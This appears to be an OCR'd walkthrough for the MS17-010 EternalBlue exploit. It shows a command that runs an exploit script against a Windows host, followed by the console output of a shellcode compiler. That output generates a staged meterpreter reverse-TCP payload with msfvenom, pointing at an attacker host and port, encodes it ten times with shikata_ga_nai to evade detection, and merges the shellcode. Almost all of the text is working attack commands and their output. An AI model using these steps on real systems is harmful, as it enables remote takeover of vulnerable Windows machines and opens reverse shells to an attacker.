 # MS17

python3 eternalblue_exploit7.py 192.168.1.10 scx86.bin

./shell86.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
192.168.1.14
LPORT you want x86 to listen on:
6666
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
Type 0 to generate a staged payload or 1 to generate a stageless payload
0

Generating x86 meterpreter shell (staged)...

msfvenom -p windows/meterpreter/reverse_tcp -f raw -o scx86msf.bin EXITFUNC=thread LHOST=192.168.1.14 LPORT=6666 -e x86/shikata_ga_nai -i 10 -b \x00\x5c --platform windows
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 402 (iteration=0)
x86/shikata_ga_nai succeeded with size 429 (iteration=1)
x86/shikata_ga_nai succeeded with size 456 (iteration=2)
x86/shikata_ga_nai succeeded with size 483 (iteration=3)
x86/shikata_ga_nai succeeded with size 510 (iteration=4)
x86/shikata_ga_nai succeeded with size 537 (iteration=5)
x86/shikata_ga_nai succeeded with size 564 (iteration=6)
x86/shikata_ga_nai succeeded with size 591 (iteration=7)
x86/shikata_ga_nai succeeded with size 618 (iteration=8)
x86/shikata_ga_nai succeeded with size 645 (iteration=9)
x86/shikata_ga_nai chosen with final size 645
Payload size: 645 bytes
Saved as: scx86msf.bin

MERGING SHELLCODE WOOOO!!!
Usage: eternalblue_sc_merge.py sc_x86 sc_x64 sc_out
DONE
